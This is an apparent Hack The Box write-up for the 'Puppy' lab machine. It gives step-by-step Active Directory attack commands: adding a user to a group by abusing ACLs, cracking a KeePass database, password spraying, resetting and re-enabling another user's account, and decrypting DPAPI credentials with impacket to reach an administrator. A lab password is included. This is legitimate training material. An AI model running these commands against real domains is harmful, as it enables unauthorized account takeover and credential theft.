This box is rated medium difficulty on HTB. It involves adding ourselves to a Developers group to gain access to an SMB share containing a password-protected KeePass database file. After cracking that and dumping the contents, we can spray credentials across the domain to control another user account. This person has _GenericAll_ permissions over a user account, which can be abused to change their password and grab a shell over WinRM. We discover a site backup on the `C:\` drive that contains plaintext credentials for yet another user, whose AppData folder provides us with a DPAPI blob that belongs to an administrator that can be decrypted with our password.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns the standard AD ports.

```
$ sudo nmap -sCV 10.129.232.75 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-23 17:15 -0400
Nmap scan report for 10.129.232.75
Host is up (0.083s latency).
Not shown: 985 filtered tcp ports (no-response)
Bug in iscsi-info: no string output.
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-24 04:16:01Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3260/tcp open  iscsi?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-24T04:17:53
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 205.14 seconds
```

Looks like a Windows machine with Active Directory components installed on it, more specifically a Domain Controller. LDAP is leaking the domain name of `puppy.htb` and default scripts show the hostname is DC, so I add those to my `/etc/hosts` file. Since there are no web servers present, I'll mainly focus on SMB, LDAP, and NFS to gather information initially.

## Service Enumeration
This is an assumed breach scenario, meaning we start out with credentials for a low-level user on the domain. Using these to check available shares shows one non-standard one, but we don't have access to it just yet.



### No NFS Mounts
It's a bit strange to see a Network File System server on Windows since it supports a lot less than SMB does, so I see if we have access to any exported mounted file systems. Running showmount on the DC hangs for a bit but then returns nothing.



### Mapping AD with BloodHound
I fire up BloodHound to map the domain, collecting the data with [BloodHound-Python](https://github.com/dirkjanm/bloodhound.py) since we don't have a shell to upload SharpHound just yet.

```
$ bloodhound-python -c all -d puppy.htb -u 'levi.james' -p 'KingofAkron2025!' -ns 10.129.232.75
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
INFO: Done in 00M 11S
```

After letting it ingest those JSON files for a bit, I start checking out which outbound object controls that _levi.james_ has. This shows that since he is apart of the HR group, we have _GenericWrite_ permissions over the Developers group and can add ourselves to it. There's a good bet we can read the DEV SMB share once we're in this too.



### Adding Ourselves to Dev Group
I'll use Samba's net tool to carry out this operation over RPC. Checking the available shares after confirms that theory and we can now grab its contents.

```
$ net rpc group addmem "Developers" "levi.james" -U 'PUPPY.HTB'/'levi.james'%'KingofAkron2025!' -S DC.PUPPY.HTB
```



Connecting with SMBClient shows that it stores a .kdbx (KeePass database) file and an empty projects folder.



### Dumping KeePass DB
These files are password-protected, so I use a tool like [keepass2john](https://github.com/ivanmrsulja/keepass2john) in order to convert it into a crackable hash. There is an issue with converting some newer versions of KeePass files, so we'll need a more recent version of JTR. Instead of manually compiling it, I found that Snap will grab the most recent version when installing.

```
$ sudo apt install snapd 

$ sudo systemctl enable --now snapd

$ sudo snap install john-the-ripper

$ john-the-ripper.keepass2john recovery.kdbx > hashy

$ john-the-ripper hashy --wordlist=rockyou.txt
```



Sending it over to Hashcat or JohnTheRipper recovers the password quickly and we can see which credentials it holds. This gives us passwords for five domain users that can be sprayed to test for validity.

## AD Exploitation

### Password Spraying
Some of their usernames didn't follow the naming convention, so I double check all SAMAccountNames over RPC to be absolutely sure.

```
$ rpcclient -U 'levi.james' DC.PUPPY.HTB
Password for [WORKGROUP\levi.james]:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[levi.james] rid:[0x44f]
user:[ant.edwards] rid:[0x450]
user:[adam.silver] rid:[0x451]
user:[jamie.williams] rid:[0x452]
user:[steph.cooper] rid:[0x453]
user:[steph.cooper_adm] rid:[0x457]
```

Before we spray these passwords, it's a good idea to check the domain's password policy, so we aren't inadvertently locking someone out of their business operations. Using the `--pass-pol` option in Netexec reveals that there is no Account Lockout Threshold, so we're good to go.



Testing every enumerated account with the passwords we gathered grants us a login for _ant.edwards_.

```
$ nxc smb DC.PUPPY.HTB -u users -p passwords --continue-on-success
```



### Changing User Password
Heading back to BloodHound, we see that because he is in the Senior Developers group, he has _GenericAll_ permissions over _Adam.Silver_.



This opens up a few options for us, since we have can write to that account's SPN, we can perform a targeted Kerberoasting attack, or add a shadow credential by modifying its `msDS-KeyCredentialLink` attribute. I spent some time attempting both of these, but the NTLM hash did not crack and none of the tools I used for shadow creds succeeded.

I fall back to just changing _Adam.Silver's_ password, but this is a last-case scenario since it could cause interruptions during a real pentest. Similar to before, I use Samba's net tool to reset this over RPC.

```
$ net rpc password 'adam.silver' 'Password123!' -U 'PUPPY.HTB'/'ant.edwards'%'[REDACTED]' -S 'DC.PUPPY.HTB'
```



### Initial Foothold
Confirming that we actually reset his password returns an error disclosing that the account is currently disabled. Usually, we'd need administrative access to fix this, but _GenericAll_ works the same for us here. I use [BloodyAD](https://github.com/CravateRouge/bloodyAD) to remove this account restriction which also allows us to grab a shell due to him being in the Remote Management group.

```
$ bloodyAD -u ant.edwards -p '[REDACTED]' --host dc.puppy.htb -d puppy.htb remove uac adam.silver -f ACCOUNTDISABLE
```



At this point, we could grab the user flag under their Desktop folder and start internal enumeration to escalate privileges towards administrator.



Listing the users directory shows the only other account that we don't have access to is _steph.cooper_, making them a prime target for us.

## Privilege Escalation
Checking out the root of the `C:\` drive shows a Backups directory that contains a backup Zip archive for a website. I use Evil-WinRM's built in download function to transfer this over to my local machine for further inspection.



### Credentials in Site Backup ZIP
This file is not password protected, so we can just dump the contents right away. Other than some generic resources, we find an Network Management System (NMS) configuration file that contains bind credentials for the _steph.cooper_ user inside.

```
$ unzip site-backup-2024-12-30.zip

$ cd puppy

$ cat nms-auth-config.xml.bak
```



Testing these for his domain account over SMB succeeds and we can grab a shell as him. BloodHound did not show any interesting privileges over other accounts, however there is a separate admin account for _steph.cooper_adm_ which we may be able to pivot to. 



### Decrypting DPAPI Creds
It's reasonable to assume that this user may have accidentally typed in their password for the admin account at some point or has saved credentials somewhere in their home directory, so I take a look around there.

It looks like PowerShell isn't logging any commands with the PSReadlineOption module, however I do find a Microsoft credential saved inside of his AppData directory.



There is a master key for it in the usual place as well, but downloading it fails.



I end up converting these to Base64 and copy/pasting them to a file on my local machine, then decoding them once secured.

```
$ [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\steph.cooper\appdata\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9'))
AQAAAJIBAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAAEiRqVXUSz0y3IeagtPkEBwAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQAaQBhAGwAIABEAGEAdABhAA0ACgAAAANmAADAAAAAEAAAAHEb7RgOmv+9Na4Okf93s5UAAAAABIAAAKAAAAAQAAAACtD/ejPwVzLZOMdWJSHNcNAAAAAxXrMDYlY3P7k8AxWLBmmyKBrAVVGhfnfVrkzLQu2ABNeu0R62bEFJ0CdfcBONlj8Jg2mtcVXXWuYPSiVDse/sOudQSf3ZGmYhCz21A8c6JCGLjWuS78fQnyLW5RVLLzZp2+6gEc
[...]

$ [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\steph.cooper\Appdata\roaming\microsoft\protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407'))
AgAAAAAAAAAAAAAANQA1ADYAYQAyADQAMQAyAC0AMQAyADcANQAtADQAYwBjAGYALQBiADcAMgAxAC0AZQA2AGEAMABiADQAZgA5ADAANAAwADcAAABqVXUSz0wAAAAAiAAAAAAAAABoAAAAAAAAAAAAAAAAAAAAdAEAAAAAAAACAAAAsj8xITRBgEgAZOArghULmlBGAAAJgAAAA2YAAPtTG5NorNzxhcfx4/jYgxj+JK0HBHMu8jL7YmpQvLiX7P3r8JgmUe6u9jRlDDjMOHDoZvKzrgIlOUbC0tm4g/4fwFIfMWBq0/fLkFUoEUWvl1/BQlIKAYfIoVXIhNRtc+KnqjXV7w+BAgAAAIIHeThOAhE+Lw/NTnPdsz
[...]
```

These credentials are stored using the Windows Data Protection API (DPAPI), which can be decoded as long as we have a password for it. In our case, it will be the password for _steph.cooper's_ domain account. We'll also need to provide the user's SID to decrypt the key.

Once we officially have the decrypted key in hand, it may be utilized to recover credentials within the credential file; I use Impacket's [dpapi.py](https://github.com/fortra/impacket/blob/master/examples/dpapi.py) script to carry out these steps.

```
$ cat masterkey | base64 -d > decodedKey

$ cat credentials | base64 -d > decodedCreds

$ impacket-dpapi masterkey -file decodedKey -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password '[REDACTED]'

$ impacket-dpapi credential -file decodedCreds -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```



Finally, we can authenticate over WinRM to grab a shell and find that this account does indeed belong to an Administrator. We can grab the final flag under the Administrator's Desktop folder to complete this challenge.



This box was a good mix of abusing ACLs and enumerating the file system in order to make our way towards admin, which was a nice. I hope this was helpful to anyone following along or stuck and happy hacking!
